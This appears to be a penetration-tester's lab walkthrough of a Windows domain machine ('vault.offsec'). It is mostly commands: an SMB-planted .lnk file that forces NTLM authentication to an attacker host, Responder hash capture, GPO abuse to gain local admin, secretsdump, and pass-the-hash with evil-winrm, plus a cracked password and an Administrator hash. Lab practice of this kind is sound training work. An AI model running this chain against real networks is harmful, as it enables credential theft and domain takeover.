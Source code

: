_____

> [!info]
> IP=192.168.188.172



# SMB

Documentsshare upload enabled



```
# https://github.com/xct/hashgrab
python3 ~/tools/hashgrab/hashgrab.py attackerIP xct


put xct.lnk
```

```bash
sudo responder -I tun0 -wv
```

![[Pasted image 20240221184457.png]]

```txt
SecureHM         (anirudh)     
```

Remote Management Users

# Priv Esc

![[Pasted image 20240221185915.png]]

![[Pasted image 20240221185935.png]]

[https://github.com/byronkg/SharpGPOAbuse](https://github.com/byronkg/SharpGPOAbuse)

```bash
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "DEFAULT DOMAIN POLICY"

gpupdate /force
```

```bash
impacket-secretsdump vault.offsec/anirudh:SecureHM@$IP
```

![[Pasted image 20240221191653.png]]


```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:54ff9c380cf1a80c23467ff51919146e:::
```

```bash
evil-winrm -i $IP -u 'vault.offsec\administrator' -H 54ff9c380cf1a80c23467ff51919146e
```






